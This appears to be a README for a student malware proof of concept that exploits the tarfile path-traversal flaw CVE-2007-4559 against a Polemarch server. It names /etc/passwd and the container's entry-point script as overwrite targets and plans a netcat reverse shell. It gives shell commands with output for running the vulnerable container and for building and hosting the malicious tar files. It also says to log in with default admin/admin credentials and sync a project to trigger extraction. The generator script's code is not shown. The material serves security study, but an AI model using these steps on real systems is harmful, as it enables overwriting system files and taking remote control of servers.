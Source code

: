 # MALW
Malware UPC

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
- /etc 
  -> passwd
- /opt/polemarch/bin
  -> polemarchctl: entry point for docker

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder


## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Server hosting the compromised tar files
- Nc listening to execute a reverse shell

First, deploy the polemarch server:

```bash
$: ./polemarch.sh 
+ docker rm polemarch -f
polemarch
+ docker run -d --name polemarch --restart always -v /opt/polemarch/projects:/projects -v /opt/polemarch/hooks:/hooks -p 8080:8080 vstconsulting/polemarch:1.8.5
fbbbd334a21694e760522172519d51e253f1d2bebb35f5b15a01a1b0b96fb518
```

Generate the tar files and host the tar files (example using python localhost server). Configure the server to listen in an interface
accesible from the docker container:

```bash
$: cd poc
$: python tar.py
+ set -o pipefail
+ python3 tar.py
+ python3 -m http.server --bind 172.17.0.1 3000
Serving HTTP on 172.17.0.1 port 3000 (http://172.17.0.1:3000/) ...
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![Project](./pictures/project.png)

"Sync" the project, which will untar untar our compromised tar.

